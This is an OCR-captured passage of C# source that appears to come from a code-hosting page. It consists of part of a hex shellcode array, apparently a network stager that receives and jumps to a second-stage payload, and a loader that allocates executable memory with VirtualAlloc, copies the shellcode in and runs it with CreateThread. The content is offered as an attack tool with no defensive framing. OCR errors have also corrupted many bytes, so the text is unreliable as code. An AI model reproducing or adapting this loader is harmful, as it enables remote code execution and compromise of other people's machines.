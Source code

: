 ```c#
0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,xba,

0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,0xce,0x75,xe5,

0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,xc9,

0x6a,0x04,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,xd5,

0x83,0xf8,0x00,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,x41,

0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,x41,

0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,x31,

0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,xc8,

0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,x40,

0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,0x30,0xff,xd5,

0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,x3c,

0xff,0xff,0xff,0x48,0x01,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,x41,

0xff,0xe7,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,xd5 };


UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode .Length,

MEM_COMMIT, PAGE_EXECUTE_READWRITE);

Marshal.Copy(shellcode , 0, (IntPtr)(funcAddr), shellcode .Length);

IntPtr hThread = IntPtr.Zero;

UInt32 threadId = 0; 

IntPtr pinfo = IntPtr.Zero; 

hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);

WaitForSingleObject(hThread, 0xFFFFFFFF); 

} 

private static UInt32 MEM_COMMIT = 0x1000; 

private static UInt32 PAGE_EXECUTE_READWRITE = 0x40; 

[DllImport("kernel32")]

private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,UInt32 size, UInt32 flAllocationType, UInt32 flProtect); 

[DllImport("kernel32")]

private static extern bool VirtualFree(IntPtr lpAddress,

UInt32 dwSize, UInt32 dwFreeType); 

[DllImport("kernel32")]

private static extern IntPtr CreateThread( 
```